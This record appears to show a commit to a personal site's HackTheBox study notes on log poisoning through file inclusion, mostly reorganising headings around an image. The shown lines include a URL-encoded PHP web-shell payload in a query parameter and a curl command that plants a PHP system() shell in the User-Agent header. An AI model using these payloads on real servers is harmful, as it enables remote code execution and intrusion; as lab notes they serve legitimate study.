

Before and after one commit to HenryEarl/HenryEarl.github.io, a Jekyll site: the page built from docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/Log_Poisoning.md, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update Log_Poisoning.md

````diff
--- a/docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/Log_Poisoning.md
+++ b/docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/Log_Poisoning.md
@@ -12,8 +12,13 @@ http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22c
 
 # Server Log Poisoning
 
+
+## Burp Suite - Poison User-Agent
+
+<img src="/assets/images/rfi_cmd_repeater.png"/>
+
+## Log Poisoning with cURL
+
 ```
 Jerad Rodgers@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
 ```
-
-<img src="/assets/images/rfi_cmd_repeater.png"/>
````
